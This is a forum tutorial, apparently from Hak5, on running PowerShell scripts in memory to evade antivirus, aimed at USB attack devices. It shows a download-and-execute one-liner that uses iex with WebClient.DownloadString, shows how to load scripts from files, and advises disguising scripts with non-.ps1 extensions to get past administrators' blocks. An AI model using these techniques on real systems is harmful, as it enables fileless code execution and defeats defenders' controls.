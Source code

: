 ## PowerShell Tutorial
###### Author: Dave-ee Jones
###### Subject: Running PowerShell scripts in memory
###### [Original post](https://forums.hak5.org/topic/41729-running-powershell-in-memory/)

### DISCLAIMER:
I don't claim to know everything in this area, I am just giving you a general idea and some resources.

So I've seen lots of PowerShell-based scripts (for the Ducky and BB especially), and there are a few people talking about running PS scripts in memory so that most free anti-virus software can't detect the script. Since most newbies don't know how to do this (and even some elderbies), I figured I would give you a few links and a brief explanation myself.

So, without further ado, let's get started!

### First, let's consider; what does loading a script into memory mean?
Well, we all know how variables and functions work, right?
```
var1 = "hello there!"
```
When this bit of code executes it has just told the computer 'Okay, make sure you remember this, now. Var1 equals "hello there!"' and the computer has gone 'K, boss!' and puts it into it's memory, just like we would with a bit of information we've been given. Functions are the same. In Lua (using Lua as an example because it's the language I'm most familiar with) I could do something like this:
```
local var = "hello world!"

local func = function()
	print(var)
end
```
This has put the function 'func' and variable 'var' into memory. 'Func' is executable, so when we call the function like so it will do like so:
```
func()

OUTPUT:
hello world!
```
So we've just executed a function that was first placed in memory, but SOURCED from the script (text file) itself. We can do the same with scripts. We can load a script into a variable, allowing us to call it from memory.

### Okay, that's great, but how do I load a *script* into a variable - and how am I supposed to run it?

First off, we have to remember to store the script outside of the machine we're running the script on. THEN we need to use an amazing PowerShell module called 'Invoke-Expression', which allows us to execute strings. You can see where this is going, right?

If we're getting the script from a website or a webserver, we can do something like this:
```
$url = ‘https://www.justaprank.com/scripts/script1.ps1′
iex ((New ObjectNet.WebClient).DownloadString($url))
```
 This will download the whole contents of the 'script1.ps1' file, allowing us to execute it with 'iex' which is the shorthand alias of 'Invoke-Expression', NOT Internet Explorer.

If we're getting the script from a file hosted on an SMB server, USB (Ducky/BB) or outside source, we can do something like this:
```
iex (Get-Content pathtoscript\script1.txt)
```
The beauty about both of these ways is we don't have to have a specific '.ps1' extension on it, allowing us to load all kinds of scripts that can be disguised as pictures, video, text files etc.

**IN FACT** it's better NOT to have a '.ps1' extension because there are people (especially Domain Administrators) who block '.ps1' scripts from being read/executed, so having a different extension helps greatly, even if loading from an outside source (web server, USB).

So I hope this has helped some of you understand what we mean by running a script in memory, and how powerful it can be! Keep in mind that there are still lots of Anti-virus software that will detect stuff like this, but, unfortunately, most of it is paid software (money-making losers who think money > security..).

Also keep in mind that there are plenty of other ways of storing scripts in memory (one being using C#), but these are (arguably) the easiest.

### And now, resources!

https://securingtomorrow.mcafee.com/business/fileless-malware-execution-with-powershell-is-easier-than-you-may-realize/
https://github.com/PowerShellMafia/PowerSploit/tree/master/CodeExecution
https://clymb3r.wordpress.com/
https://www.defcon.org/images/defcon-21/dc-21-presentations/Bialek/DEFCON-21-Bialek-PowerPwning-Post-Exploiting-by-Overpowering-Powershell.pdf 
